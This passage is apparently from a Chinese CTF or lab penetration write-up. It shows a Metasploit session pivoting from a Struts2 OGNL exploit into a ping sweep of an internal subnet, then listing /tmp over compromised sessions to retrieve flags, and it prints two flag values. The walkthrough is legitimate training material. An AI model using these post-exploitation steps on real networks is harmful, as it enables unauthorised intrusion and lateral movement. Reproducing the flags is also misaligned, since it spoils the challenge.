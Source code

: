 ```bash
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search ping_sweep

Matching Modules
================
   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep

Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on

View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.172.84.5-254
rhosts => 192.172.84.5-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.172.84.5-254
[+]     192.172.84.5 host found
[+]     192.172.84.3 host found
[+]     192.172.84.4 host found
[+]     192.172.84.2 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```

进入会话中，查看 `/tmp` 目录，成功找到 `flag2-4`

```bash
# get flag2-4
$ sessions -c "ls /tmp" -i 6,7,8
```

```bash
得到flag2-4:
flag-{bmh76fd8ddc-29fc-45d6-5d6d-8bba0ffc10df}
flag-{bmh36f772a9-90ba-455d-66d0-58dfce9a001a}
```

#### 4.内层网络渗透:攻破靶标 5
